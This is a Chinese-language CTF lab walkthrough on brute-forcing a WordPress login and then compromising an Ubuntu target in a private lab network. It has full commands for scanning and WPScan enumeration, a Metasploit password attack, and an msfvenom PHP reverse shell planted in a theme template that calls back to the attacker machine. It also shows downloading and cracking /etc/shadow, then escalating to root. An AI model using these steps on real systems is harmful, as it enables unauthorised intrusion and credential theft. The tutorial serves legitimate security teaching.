# 网络安全CTF：P13：WEB安全暴力破解教程 🔐

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对目标Web应用程序的用户名和密码进行枚举尝试，最终获取有效凭据。利用这些凭据登录系统后，我们将尝试获取系统Shell，并进一步提权至root权限，最终取得目标Flag值。

## 暴力破解概述

暴力破解的基本思想可以概括为**枚举法**。枚举法的核心是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。

在WEB安全中进行暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，直至取得所需的具体值。

## 实验环境搭建

本节我们将搭建实验环境。攻击机使用Kali Linux，其IP地址为 `192.168.253.12`。靶机使用Ubuntu Linux，其IP地址为 `192.168.253.20`。

我们的目标是获取靶机上的Flag值，并在过程中取得靶机的root权限。

## 靶场信息探测

上一节我们介绍了实验环境，本节中我们来看看如何对靶机进行信息收集。我们目前仅知道靶机的IP地址，尚不清楚其开放的服务及版本信息。因此，我们将使用Nmap工具进行探测。

首先，使用以下命令对靶机进行服务和版本探测：
```bash
nmap -sV 192.168.253.20
```
此命令将开始扫描并返回靶机开放的服务及版本信息。

此外，我们还可以使用Nmap进行更全面的信息探测，包括服务信息、版本信息、路由信息以及操作系统信息。命令如下：
```bash
nmap -T4 -A -v 192.168.253.20
```
其中，`-T4` 代表使用最大线程数以最快速度扫描，`-A` 代表启用所有扫描模块，`-v` 表示在探测过程中将详细输出扫描数据包信息。

执行该命令后，Nmap会快速返回靶机的详细信息。在探测结果中，我们可能会发现靶机开放了80端口的HTTP服务。





## HTTP服务敏感信息探测

探测到靶机开放HTTP服务后，有必要进一步探索该服务下是否存在敏感信息。我们可以使用Nikto工具进行探测。

以下是使用Nikto探测HTTP服务的命令（若端口为80，则可省略端口号）：
```bash
nikto -host http://192.168.253.20
```
Nikto将开始扫描并返回大量信息，包括Apache版本、操作系统类型以及可能存在的安全漏洞（如HTTP爆头未设置）。在扫描结果中，我们需重点关注敏感目录，例如 `secret` 目录。

## 分析扫描结果并访问敏感目录

在分析Nmap和Nikto的扫描结果后，我们需要挖掘可利用的信息。对于开放HTTP服务的靶机，如果扫描到敏感页面，可以使用浏览器访问该页面进行查看。





打开浏览器，访问靶机IP地址（`http://192.168.253.20`）。然后，尝试访问Nikto扫描到的 `secret` 目录（`http://192.168.253.20/secret`）。

访问后，我们发现这是一个隐藏的WordPress博客站点。然而，点击登录链接时，可能会遇到“未找到文件”的错误。这是因为站点配置了虚拟主机名。

解决方法有两种：
1.  在浏览器中直接使用IP地址访问登录页面（例如 `http://192.168.253.20/secret/wp-login.php`）。
2.  在攻击机的 `/etc/hosts` 文件中添加主机名解析。编辑文件：
    ```bash
    gedit /etc/hosts
    ```
    添加一行：
    ```
    192.168.253.20    {复制的站点域名}
    ```
    保存后刷新浏览器即可正常访问。

## WordPress用户名枚举与暴力破解

成功访问WordPress登录页面后，下一步是尝试破解登录凭据。首先，我们需要枚举存在的用户名。

使用WPScan工具枚举用户名：
```bash
wpscan --url http://192.168.253.20/secret --enumerate u
```
扫描完成后，在结果中可能会发现用户名为 `admin`。

接下来，使用Metasploit框架对 `admin` 用户进行密码暴力破解。启动Metasploit控制台：
```bash
msfconsole
```
使用WordPress登录扫描模块：
```bash
use auxiliary/scanner/http/wordpress_login_enum
```
设置模块参数：
```bash
set RHOSTS 192.168.253.20
set USERNAME admin
set PASS_FILE /usr/share/wordlists/dirb/common.txt
set TARGETURI /secret
```
运行模块开始破解：
```bash
run
```
等待破解完成。成功后，将显示用户名 `admin` 及其对应的密码（例如 `admin`）。

## 登录后台与WebShell上传

使用破解得到的用户名和密码（admin/admin）登录WordPress后台。

登录成功后，我们需要上传一个WebShell以获取反向连接。首先，在攻击机上使用Msfvenom生成一个PHP反向Shell：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```
此命令生成一个连接到 `192.168.253.12:4444` 的WebShell代码。

然后，在WordPress后台找到主题编辑器（例如404模板页面），将生成的WebShell代码粘贴进去并保存文件。

## 建立监听与获取Shell







在Metasploit中设置监听，以接收靶机反弹回来的Shell：
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
run
```
监听启动后，在浏览器中访问上传了WebShell的页面（例如 `http://192.168.253.20/secret/wp-content/themes/twentyseventeen/404.php`）。





访问成功后，Metasploit监听端将获得一个Meterpreter会话。在会话中，可以执行系统命令：
```bash
sysinfo
id
```
此时，我们获得的权限可能是 `www-data` 用户，并非root权限。



## 权限提升



为了获取root权限，我们需要进行提权操作。首先，从靶机下载 `/etc/passwd` 和 `/etc/shadow` 文件到攻击机：
```bash
download /etc/passwd
download /etc/shadow
```
然后，使用 `unshadow` 工具合并这两个文件，生成John the Ripper可识别的破解文件：
```bash
unshadow passwd shadow > crack.db
```
接着，使用John the Ripper破解哈希：
```bash
john crack.db
```
破解成功后，会显示用户名和对应的明文密码（例如用户 `marinspike` 和密码 `marinspike`）。



利用破解得到的凭据进行提权。在Meterpreter会话中切换到系统Shell，然后切换用户：
```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - marinspike
# 输入密码 marinspike
```
切换用户后，尝试提权至root：
```bash
sudo su
# 或
sudo bash
# 输入密码 marinspike
```
提权成功后，即可获得root权限。







## 获取Flag



获得root权限后，最后一步是查找并读取Flag文件。Flag通常存放在根目录下。
```bash
cd /root
ls
cat flag
```
执行以上命令即可看到Flag值。



## 总结与文档撰写





本节课中我们一起学习了WEB安全中完整的暴力破解与渗透流程。我们首先通过信息收集发现目标，然后利用WPScan和Metasploit进行用户名枚举与密码破解。成功登录后台后，通过上传WebShell获取了初始立足点。最后，通过下载系统密码文件、破解哈希和提权，最终获得了系统的root权限并取得了Flag。



在渗透测试结束后，应撰写详细的测试报告（Report），记录所有步骤、利用的漏洞、获取的权限以及最终结果。对于希望深入学习的同学，还可以撰写总结文档，分析过程中的关键点和可优化的地方。



**核心步骤回顾：**
1.  **信息收集**：使用Nmap、Nikto扫描目标。
2.  **漏洞探测**：发现WordPress站点及敏感目录。
3.  **暴力破解**：使用WPScan枚举用户，Metasploit破解密码。
4.  **获取访问**：登录后台，上传WebShell。
